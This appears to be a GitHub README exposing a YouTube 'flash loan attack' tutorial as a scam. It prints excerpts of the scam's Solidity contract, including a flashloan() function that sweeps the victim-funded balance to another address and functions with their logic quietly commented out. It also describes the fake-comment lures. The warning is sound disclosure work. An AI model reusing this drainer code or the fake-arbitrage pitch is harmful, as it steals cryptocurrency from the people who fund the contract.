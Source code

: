 # Flash Loan Scam on YouTube
Analysis of "flash loan attack" from YouTuber https://www.youtube.com/watch?v=HynfsKoFlaw&amp;t=105s

## Background

The YouTuber "Crypto Academy" https://www.youtube.com/channel/UCgiMBbCjQnaf2q3_cs06KOw  posted a video on how to orchestrate a FlashLoan attack.  I decided to verify the claims of this video by inspecting the code. This is my analysis of the video with a review of the code.

## Concern 1:  Code on GhostBin
The attack code is on GhostBin, an anonymous file sharing platform not GitHub or GitHub gist. 

## Concern 2:  Code on IPFS
From the GhostBin code the contract imports a contract from IPFS at QmSPEmnJEVjRbtmdcbeApHAVFVYGT4Lefrp45Ca2QK5923.  This obfiscates the code from anyone wanting to inspect what the contract does.  I have included the IPFS code in this repo to inspect. 

## Conern 3:  Bad addresses
In the IPFS file LN 128 references the contract `0x9c7770E88dd4c4F972283E97B4FeBD2991e0E05B`.  This does not exist on the Ethereum blockchain.   https://etherscan.io/address/0x9c7770E88dd4c4F972283E97B4FeBD2991e0E05B

# Inspecting the code
After downloading the IPFS file QmSPEmnJEVjRbtmdcbeApHAVFVYGT4Lefrp45Ca2QK5923 there are a lot of concerns.

## Concern 4:  Commented out code
Code in the "Router" contract are commented out and done using the `/*` method instead of `\\` which is technically correct, but easy to miss unless put into an IDE such as VS Code.

```
    function lendingPoolFlashloan(uint256 _asset) public pure {
        uint256 data = _asset; 
        require(data != 0, "Data can't be 0.");/*
        uint amount = 1 BNB;

        ILendingPool lendingPool = ILendingPool(addressesProvider.getLendingPool());
        lendingPool.flashLoan(address(this), _asset, amount, data);*/
    }
```

![Screenshot from 2021-07-05 11-21-05](https://user-images.githubusercontent.com/8411406/124405982-6501c080-dd83-11eb-82dd-779f54591bf4.png)

Lots of methods are simply commented out or do nothing, such as 

```
    //5. Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
    function completeTransation(uint256 balanceAmount) public pure {
        require(balanceAmount >= 0, "Amount should be greater than 0!");
    }
```

## Concern 5:  SENDING ALL THE ETH!
In the method "flashloan", LN44 sweeps the entire amount of the Ethereum in the contract.  The premis of the video is to use borrowed funds, not your own ETH to attack defi contracts such as UniSwap.

* NOTE THE AUTHOUR OF THE VIDEO ASKS YOU TO FUND THE CONTRACT.  In otherwords, he will sweep this ETH.  In the video at 5:12 https://youtu.be/HynfsKoFlaw?t=312 the other funds his contract with 0.2 BNB.  This is what will be swept from you.

```
	function flashloan() public payable {
    	// Send required coins for swap
    	address(uint160(router.pancakeSwapAddress())).transfer(
        	address(this).balance
    	);

    	//Flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
    	router.borrowFlashloanFromMultiplier(
        	address(this),
        	router.bakerySwapAddress(),
        	flashLoanAmount
    	);

    	//To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
    	router.convertBnbToBusd(msg.sender, flashLoanAmount / 2);
    	//The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
    	router.callArbitrageBakerySwap(router.bakerySwapAddress(), msg.sender);
    	//After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
    	router.transferBnbToMultiplier(router.pancakeSwapAddress());
    	//Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
    	router.completeTransation(address(this).balance);
	}
```

# Socials 
## Concern 3: Social profile
The YouTuber only has a few followings and only 3 videos at time of writing on "Flash Loans"
![Screenshot from 2021-07-05 10-55-32](https://user-images.githubusercontent.com/8411406/124405464-11db3e00-dd82-11eb-8346-de1eac423640.png)

## Concern 4: Fake comments
There are profiles such as "Marcus Canton" with no profile image commenting "Amazing I did it twice and earned over 5BNB. Great JOB!!".  Clicking "his" profile shows they only registered a few days ago at time of writing.

![Screenshot from 2021-07-05 11-07-01](https://user-images.githubusercontent.com/8411406/124405446-038d2200-dd82-11eb-80d0-dad085fabfba.png)


# Final words
Stay safe out there!  Visit real meetups like www.bitcoinbrisbane.com.au or meetup.com/bitcoinbrisbane to get real information.
